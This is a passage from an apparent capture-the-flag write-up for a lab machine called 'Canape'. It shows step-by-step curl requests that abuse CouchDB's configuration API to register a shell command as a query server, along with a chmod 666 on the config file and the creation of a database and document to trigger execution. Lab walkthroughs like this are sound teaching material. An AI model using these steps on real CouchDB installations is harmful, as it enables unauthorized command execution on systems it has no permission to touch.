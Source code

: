 Some Googling shows that this is an issue with permissions. In fact, if we check with out root shell, we can see that the `local.ini` file is not writable by anyone, let alone www-data:

```
root@canape:/home/home/etc# ls -ls local.ini
8 -r--r--r-- 1 homer homer 4841 Sep 14 17:11 local.ini
```

So that’s a dead end for Canape. But if we want to try to get it working, we can make it readable with our root or homer access, and continue down this path. We’ll make a backup of the original so we can see what changes:

```
root@canape:/# cp /home/homer/etc/local.ini /home/homer/etc/local.ini.b
root@canape:/# chmod 666 /home/homer/etc/local.ini
```

Now, back to our www-data shell:

```bash
www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
""
```

```
www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
""
```

We get back the previous value for the cmd query server, which means success. And in the root shell, we can see it worked:

```
root@canape:/home/homer/etc# diff local.ini local.ini.bk
48c48
< cmd = /sbin/ifconfig > /tmp/df
---
> cmd =
```

Now, we should be able to create a db, and then a document in that db, and the request it with a view that maps our query\_server to get execution.

Create db and document:

```bash
www-data@canape:/dev/shm$ curl 'http://0xdf:df@localhost:5984/_all_dbs'
["_global_changes","_metadata","_replicator","_users","god","passwords","simpsons","vultest"]
www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/df'
{"ok":true}
www-data@canape:/dev/shm$ curl 'http://0xdf:df@localhost:5984/_all_dbs'
["_global_changes","_metadata","_replicator","_users","df","passwords","simpsons"]

www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/df/zero' -d '{"_id": "HTP"}'
{"ok":true,"id":"zero","rev":"1-967a00dff5e02add41819138abb3284d"}
```
